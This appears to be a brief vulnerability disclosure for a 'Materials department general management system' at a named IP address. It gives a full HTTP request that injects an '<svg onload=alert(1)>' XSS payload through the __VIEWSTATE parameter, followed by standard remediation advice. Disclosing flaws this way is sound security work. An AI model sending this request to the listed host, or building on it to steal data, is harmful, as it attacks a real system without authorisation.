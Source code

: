 

Materials department general management system

**XSS vulnerabilities** allow attackers to inject malicious scripts into web pages, stealing sensitive data, manipulating content, or performing unauthorized actions.

120.53.84.158

```
GET /?90=nhiw3&__VIEWSTATE=__VIEWSTATE=<svg onload=alert(1)>//&api=clr44&begindate=eocb8&box%24RememberMe=g68z5&box%24tbPassword=hmnn6&code=xdt49&item=wur90&keyword=boyg9&keywords=kmtf1&list_type=aqa01&name=j5i60&password=jltu7&pwd%24btnChange=jfeh5&query=s6dn2&region=r86q1&s1=jcho3&text=shkv6&theForm=cmmk7&token=k2904 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept-Charset: utf-8
Cookie: somecookie
Accept-Encoding: gzip
```

![](2.png)

**Remediation suggestions** include strict input validation and output encoding, using Content Security Policy (CSP) to restrict script sources, and leveraging built-in security features of modern frameworks.
